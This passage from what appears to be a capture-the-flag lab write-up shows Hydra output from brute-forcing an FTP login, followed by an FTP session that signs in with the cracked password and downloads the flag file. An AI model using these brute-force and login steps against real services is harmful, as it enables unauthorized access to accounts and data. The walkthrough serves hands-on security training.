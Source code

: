 [21][ftp] host: <ip>   login: mike   password: password
[STATUS] attack finished for <ip> (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-03 00:56:22{% endraw %}{% endcapture %} {% include code.html code=code%}

Since the password is exploited, we can try with `ftp` using the password.
{% capture code %}{% raw %}ftp <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Connected to <ip>.
220 Welcome to the administrator FTP service.
Name (<ip>:lab): mike
331 Please specify the password.
Password: password
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.{% endraw %}{% endcapture %} {% include code.html code=code%}

Capture the flag.
{% capture code %}{% raw %}ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
  -rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
  226 Directory send OK.
ftp> get ftp.txt
  local: ftp.txt remote: ftp.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for ftp.txt (26 bytes).
  226 Transfer complete.
  26 bytes received in 0.00 secs (39.5493 kB/s)
ftp> !cat ftp.txt{% endraw %}{% endcapture %} {% include code.html code=code%}


### Task 10 - Expanding knowledge

### References
- [Exploiting simple network services in ctfs](https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef){:target="_blank"}
- [Mitre - Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/){:target="_blank"}


